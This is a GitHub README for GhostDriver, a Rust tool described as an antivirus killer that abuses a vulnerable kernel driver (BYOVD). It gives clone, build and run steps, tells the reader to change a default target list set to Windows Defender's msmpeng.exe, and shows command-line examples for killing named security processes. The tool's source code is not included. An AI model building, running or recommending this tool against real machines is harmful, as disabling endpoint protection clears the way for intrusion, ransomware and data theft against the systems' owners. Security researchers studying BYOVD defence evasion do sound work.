 # GhostDriver 👻

## About
GhostDriver is a Rust-built AV killer tool using BYOVD.

## Get Started
1. Install Rust from [rust-lang.org](https://www.rust-lang.org)
2. Clone: `git clone https://github.com/BlackSnufkin/GhostDriver.git`
3. Build: `cargo build --release  --target=x86_64-pc-windows-msvc`
4. Run: Execute the GhostDriver binary

- Change line 3307 for the defualt Process names

```text
// Define default process names
   let default_process_names = vec!["msmpeng.exe"];
```

## Usage:
```text
GhostDriver.exe 2.0
BlackSnufkin
Kills processes by name using a Ghost Driver

USAGE:
    GhostDriver.exe [FLAGS] [OPTIONS]

FLAGS:
    -h, --help       Prints help information
    -v, --version    Prints version information

OPTIONS:
    -n, --name=process_names

USAGE:
        .\GhostDriver.exe -n msmpeng.exe,svchost.exe
        .\GhostDriver.exe --name msmpeng.exe
        .\GhostDriver.exe (uses default processes)

```


# POC

![gd2](https://github.com/BlackSnufkin/GhostDriver/assets/61916899/0b465997-c3ea-45b5-86da-61e4551636fe)


# Reference
- https://github.com/keowu/BadRentdrv2
- https://unit42.paloaltonetworks.com/agonizing-serpens-targets-israeli-tech-higher-ed-sectors
